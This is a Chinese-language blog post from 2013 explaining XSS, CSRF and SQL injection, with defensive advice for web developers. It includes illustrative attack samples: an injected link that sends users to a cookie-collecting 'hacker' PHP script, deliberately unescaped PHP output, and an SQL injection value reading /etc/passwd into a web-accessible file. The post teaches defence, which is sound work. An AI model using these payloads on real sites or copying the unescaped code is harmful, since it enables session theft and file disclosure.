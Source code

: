 ```yaml
---
title: 初探web中的XSS和CSRF攻击
date: 2013-10-05 08:19:50
---
```

理解web安全
===

这几天接触了一下web安全，其中涉及到:

* XSS攻击 —— cross site script
* CSRF攻击 —— cross site request forgery
* XSS+CSRF(蠕虫)
* SQL注入

首先要理解XSS和CSRF，因为这是两种利用web缺陷发起的基本攻击，但是其威力也不容小视。首先我们要认识到HTTP协议是无状态的，也即一次请求响应和下一次没有关系，或者说没有状态之间的联系，而应用中必须保持着某种状态，例如在cookie中存一些数据。而web中的session其实是基于cookie的，只是记录的这个cookie是经过加密的一个sessionid，从而用来确认用户身份。曾经听说过网站中这次登录，如果用户选择了下次自动登录，则服务器将会记录一个sessionid,作为下次登陆的凭证，但是只使用一次，下次登录又申请新的，服务器每次发送请求，都带上了该网站的cookie，但是cookie是可以在客户端被修改的。cookie保存在浏览器中的确是很危险的，在后面的例子中我们就可以看到它是怎样被轻易拿走的。


### XSS
XSS攻击分为两种：

* 反射型
* 存储型

所谓反射型，就是点击了某个链接触发了某个漏洞，从而被利用发送相关信息到黑客服务器上，被窃取。另外一种是常见的评论或者是帖子，包含了一些恶意代码，但是被提交存储到了数据库中，这样每次其他用户访问该网页，也会受到侵扰，其中夹带很多恶意链接，用户点了之后或许会受到攻击。

反射型，很常见的就是构造了一个带有恶意的链接，比如有如下表单：

    <body>
	<form action="php/index.php" method="POST">
		<input type="text" name="user_name"><br>
		<input type="password" name="user_passwd"><br>
		
		<textarea name="user_descr" rows=5 cols=80></textarea><br>
		<input type="submit" value="提交">
	</form>
    </body>

是提交评论或者是注册，里面提供了一些可以注入的地方，例如我们往textarea注入恶意代码，也就是看是否能够让服务器存储起来，渲染出来祸害别的用户。假设黑客填入了如下的信息：

    
    <a href="http://abc.com"   onclick="window.location='http://localhost/hacker/index.php';"> hello  </a>

服务器端直接获取用户数据，予以存储，这里仅仅做一个模拟，直接把用户数据输出。相当于注入逃过了PHP的检查，从而成为存储型XSS。

    $name = $_POST['user_name'];
    $passwd = $_POST['user_passwd'];
    $descr = $_POST['user_descr'];
    
    print $name;
    print ' ';
    print $passwd;
    
    
    print '<span>' . $descr . '</span>';
    
黑客的服务器，用来获取用户的cookie

    <?php
    $cookie = $_GET['c'];
    // 写到一个文件里面
    print_r($cookie);

chrome浏览器会报错误，对于表单中的敏感字符串如script标签，js代码做了处理，所以提交不到服务端：

![XSS攻击警告](http://www.bibodeng.com/content/plugins/kl_album/upload/201310/112db41ad44e2bbeb0dc695f3dd00fc92013100500193628335.png)

但是IE内核的搜狗浏览器却中招了，当点击该链接的时候，将发送该用户的cookie到hacker的服务器上，这样就达到了初步的攻击。nodeJS社区上有更加精彩的XSRF攻击，利用注入的代码，获取用户信息，并且假冒用户发出各种请求（服务器中处理各种请求的就是功能函数，直接用url可访问），导致alert满天飞，并且自动顶帖。其实所有允许嵌入html标签的地方，都是相当危险的。

对于存储型的攻击，服务器端应该对用户的输入中敏感字符进行转义。严格来讲，不能信赖我们发送出去的客户端，更加不能信赖用户的输入。

上面例子中google浏览器对于提交的数据中带有脚本拒不运行，但是在搜狗兼容模式下，居然注入成功了，黑客提交的数据假设已经存储起来了，未加任何的处理直接在模板中直接输出，而用户点击了之后，会触发事件，从而向恶意服务器发送用户的cookie信息。发送的方式有很多种，例如图片src请求，location.href直接跳转，以及某些事件触发脚本运行，例如onclick。

防范的方法：

1. 替换或过滤`<script>`等标签
2. 输出html标签时进行转义，防止恶意代码运行（大部分博客的评论都采用此法）。

### CSRF

跨站请求伪造，就是说恶意网站窃取用户的身份及权限，到某个正常网站上进行操作。例如自动发微博，加关注，转帐，消费等，对用户数据及财产带来危害。

由于web的客户端一般是公开的，而服务端的处理地址已知，这样就可以模拟用户的请求，向服务端发送请求。例如当用户在浏览某正常网站A的时候，并登陆，在浏览器端记录了cookie等数据，这时候点开了一个恶意网站B,B向A网站发起了某个请求，例如加关注，其中因为同一个浏览器下，各个进程之间甚至可以共享cookie等数据，也可以是XSS注入中提供的cookie等数据，这样就可以骗过A网站搞破坏了。

其实服务器端从将客户端代码发送到客户之后，就不应该信任客户端了，因为它可能被篡改，或者被模拟。故而需要一个机制确认这就是我自己发出去的客户端，而不是伪造的。常见的方法就是：

* 验证码 将验证码记录在session中，由服务器生成，生成图片发送到客户端，验证一致则认定安全
* 在表单中设置一个hidden项 服务器生成随机数，发送到客户端，提交表单时候一起提交到服务器验证

但是如果用户受到了XSS攻击，那么是有办法将这个验证码弄到手并发送到黑客服务器脚本的，这样相当于有个间谍在内部，拿到了电报密码，代号什么的都不管用了。其实不管什么办法，这都不安全，除非进行认证（密码学），确实不可伪造。

### SQL注入
对于SQL注入，就是说黑客预料到可能会执行某个sql操作，于是提交含有恶意代码的输入。例如：

    $query = “SELECT * FROM v_movie WHERE movieid=$movieid” ;
    // 而movieid用户输入的是
    $movieid = “1 UNION select load_file(‘/etc/passwd’) into outfile ‘<webroot>/passwd.txt’”;

那么将会把密码都输出到服务器某个文本文件上，黑客可以直接按url访问，这相当恐怖。所以对于所有要放到数据库中的数据，在PHP中都要进行严格的数据检查，对于敏感的如单引号，双引号等应该予以转义。我们开发中常用的就是自己写一个addSlash。coolshell的博客中还提及了利用摄像头摄入车牌号进行注入，可谓是无所不能。

对sql注入主要的防范方法有：

1. 严格检查参数类型
2. 使用正则表达式来过滤数据
3. 严格限制执行权限（刚刚好够用的权限，而不是root）
4. 注意日志，追踪攻击

参考链接：

[stack overflow](http://stackoverflow.com/questions/129677/whats-the-best-method-for-sanitizing-user-input-with-php/130323#130323)

[coolshell微博蠕虫分析](http://coolshell.cn/articles/4914.html)

[nodejs注入实例](http://snoopyxdy.blog.163.com/blog/static/60117440201281294147873/)

by bibodeng 2013-10-05